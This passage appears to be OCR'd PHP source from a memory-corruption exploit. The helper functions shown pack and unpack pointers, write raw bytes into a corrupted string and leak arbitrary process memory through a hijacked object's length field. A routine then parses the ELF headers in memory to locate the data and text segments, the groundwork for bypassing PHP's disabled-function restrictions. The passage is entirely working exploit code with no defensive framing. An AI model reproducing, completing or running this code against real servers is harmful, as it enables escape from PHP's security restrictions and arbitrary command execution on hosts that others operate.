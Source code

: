 ```php
        $address = 0;
        for($j = $s-1; $j >= 0; $j--) {
            $address <<= 8;
            $address |= ord($str[$p+$j]);
        }
        return $address;
    }

    function ptr2str($ptr, $m = 8) {
        $out = "";
        for ($i=0; $i < $m; $i++) {
            $out .= sprintf("%c",($ptr & 0xff));
            $ptr >>= 8;
        }
        return $out;
    }

    function write(&$str, $p, $v, $n = 8) {
        $i = 0;
        for($i = 0; $i < $n; $i++) {
            $str[$p + $i] = sprintf("%c",($v & 0xff));
            $v >>= 8;
        }
    }

    function leak($addr, $p = 0, $s = 8) {
        global $abc, $helper;
        write($abc, 0x68, $addr + $p - 0x10);
        $leak = strlen($helper->a);
        if($s != 8) { $leak %= 2 << ($s * 8) - 1; }
        return $leak;
    }

    function parse_elf($base) {
        $e_type = leak($base, 0x10, 2);

        $e_phoff = leak($base, 0x20);
        $e_phentsize = leak($base, 0x36, 2);
        $e_phnum = leak($base, 0x38, 2);

        for($i = 0; $i < $e_phnum; $i++) {
            $header = $base + $e_phoff + $i * $e_phentsize;
            $p_type  = leak($header, 0, 4);
            $p_flags = leak($header, 4, 4);
            $p_vaddr = leak($header, 0x10);
            $p_memsz = leak($header, 0x28);

            if($p_type == 1 && $p_flags == 6) { 

                $data_addr = $e_type == 2 ? $p_vaddr : $base + $p_vaddr;
                $data_size = $p_memsz;
            } else if($p_type == 1 && $p_flags == 5) { 
                $text_size = $p_memsz;
            }
        }

        if(!$data_addr || !$text_size || !$data_size)
            return false;

        return [$data_addr, $text_size, $data_size];
    }

    function get_basic_funcs($base, $elf) {
```
